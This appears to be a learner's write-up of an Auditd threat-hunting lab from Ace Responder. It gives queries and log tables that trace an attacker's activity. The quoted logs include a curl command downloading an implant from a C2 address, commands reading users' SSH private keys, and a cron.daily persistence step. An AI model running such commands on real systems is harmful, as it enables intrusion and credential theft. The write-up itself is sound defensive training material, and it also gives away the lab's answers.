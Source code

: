 https://aceresponder.com/learn/auditd

This is a learning module for Auditd by the excellent platform Ace Responder.

**Q1. Beacon: The attacker downloaded a beacon from their C2 server. What IP address did they download the beacon from?**

I used the following query and added the columns `process.title` and `user.audit.name`:

`event.category: process AND process.args: *`

| Time                        | process.title                                              |
| --------------------------- | ---------------------------------------------------------- |
| Dec 12, 2023 @ 12:14:48.794 | curl http://54.164.150.221/implant -o /tmp/install-utility |

Upon additional review, I could have also used better fields, such as `event.action: executed`, `auditd.data.syscall: execve`, and `process.name: (curl OR wget OR scp OR ftp)`

**Q2. Initial Access: What IP did the attacker initially access Ubuntu from?**

After reviewing `event.category: authentication AND user.audit.name: ace`, there are events with the fields `source.ip`, `auditd.summary.object.secondary`, and `auditd.data.hostname` that contain the attacker's IP (in this case, the `auditd.message_type` is 'user_login').

**Q3. Private Keys: From which user other than ace did the attacker steal an SSH private key from?**

` @timestamp:[2023-12-12T12:14:48.795Z TO *] AND user.audit.name: ace`

| Time                     | process.title                              |
|--------------------------|--------------------------------------------|
| Dec 12, 2023 @ 12:25:56.451 | cat /home/myuser/.ssh/                    |
| Dec 12, 2023 @ 12:25:56.451 | cat /home/myuser/.ssh/id_rsa              |
| Dec 12, 2023 @ 12:25:56.447 | cat /home/ace/.ssh/authorized_keys        |
| Dec 12, 2023 @ 12:25:56.447 | find /home/myuser/.ssh/ -not -iname *.pub |
| Dec 12, 2023 @ 12:25:56.443 | cat /home/ace/.ssh/id_rsa                 |
| Dec 12, 2023 @ 12:25:56.439 | find /home/ace/.ssh/ -not -iname *.pub    |

The advised solution was: `user.audit.name:ace AND process.args:*.ssh*` and adding the column `process.args`.

I also made a note of the `process.pid` and `process.ppid` to timeline the attacker's actions.

**Q4. Credential Access: Which file did the attacker steal user hashes from?**

Knowing that modern systems commonly store password hashes at '/etc/shadow', I checked this first. My next stops would have been '/etc/passwd' for legacy systems, '/var/lib/sss/db/' for systems that may be using the System Security Services Daemon (SSSD) for centralised auth (LDAP, Kerberos), '/etc/security/opasswd' for hashes of previous passwords (this file stores them to prevent reuse), the LDAP directory service database (the path can vary), or '/etc/pam.d' for some Pluggable Authentication Modules (PAM) configurations that may redirect hashes/auth methods to custom files, and if third-party IAM tools like Okta are in use they may cache/store hashes locally somewhere.

**Q5. Persistence: What file did the attacker modify for persistence?**

 I have limited familiarity with Linux persistence methods and reviewed Pepe Berba's excellent article about it to learn more: https://pberba.github.io/security/2021/11/22/linux-threat-hunting-for-persistence-sysmon-auditd-webshell

Here's a chart from the article: ![[Pasted image 20241204193843.png]]

Anyway, I reused the same query earlier with a minor addition, and added the columns `auditd.summary.object.primary` and `process.title`:

`@timestamp:[2023-12-12T12:14:48.795Z TO *] AND user.audit.name: ace AND event.category: process`

There were a lot of hits here (154!) and required some manual review.

This row in particular jumped out at me:

| Time                        | auditd.summary.object.primary | process.title                    |
| --------------------------- | ----------------------------- | -------------------------------- |
| Dec 12, 2023 @ 12:28:45.059 | /usr/bin/chmod                | chmod +x /etc/cron.daily/install |

Unfortunately, its not clear to me how the binary ended up in this directory or what is actually contained in it, but it does appear to be the answer to the question. After submitting the answer, the explanation didn't help resolve my confusion, but did explain a better way to approach this problem -- using the parent PID for the script to pivot: `
`process.ppid:25448 OR process.ppid:25393`

**Q6. File System Event: Did the attacker create /etc/cron.daily/install or just modify it?**

```
@timestamp:[2023-12-12T12:14:48.795Z TO *] AND user.audit.name: ace AND event.category: file AND auditd.summary.object.primary: "/etc/cron.daily/install"
```

| Time                        | auditd.summary.object.primary | process.title                    | event.action                |
| --------------------------- | ----------------------------- | -------------------------------- | --------------------------- |
| Dec 12, 2023 @ 12:28:45.059 | /etc/cron.daily/install       | /bin/bash                        | opened-file                 |
| Dec 12, 2023 @ 12:28:45.059 | /etc/cron.daily/install       | chmod +x /etc/cron.daily/install | changed-file-permissions-of |

Digging into the first event, `auditd.path` reveals:

```
{
  "rdev": "00:00",
  "name": "/etc/cron.daily/",
  "cap_fe": "0",
  "cap_fi": "0",
  "dev": "08:01",
  "mode": "040755",
  "ouid": "0",
  "item": "0",
  "nametype": "PARENT",
  "ogid": "0",
  "cap_fp": "0",
  "cap_frootid": "0",
  "cap_fver": "0",
  "inode": "164"
},
{
  "cap_fver": "0",
  "inode": "2074",
  "item": "1",
  "rdev": "00:00",
  "cap_fe": "0",
  "cap_fi": "0",
  "cap_fp": "0",
  "dev": "08:01",
  "ogid": "0",
  "mode": "0100644",
  "nametype": "CREATE",
  "cap_frootid": "0",
  "name": "/etc/cron.daily/install",
  "ouid": "0"
}
```

The answer seems straightforward: "nametype:": "CREATE" indicates the path ("name": "/etc/cron.daily/install") represents a file being created.

**Q7. Beacon Frequency: Which of the following best describes the attacker's beacon interval (the amount of time that passes between check-ins)?**

I used the following query, which provided 62 hits for me to review the intervals between check-in:
```
@timestamp:[2023-12-12T12:14:48.795Z TO *] AND user.audit.name: ace AND event.category: process AND process.title: "/tmp/install-utility"
```
I submitted the answer for between 1-2 minutes, which was correct. However, the explanation showed that I had incorrectly approached the problem: I should have used `auditd.data.syscall:socket` instead.
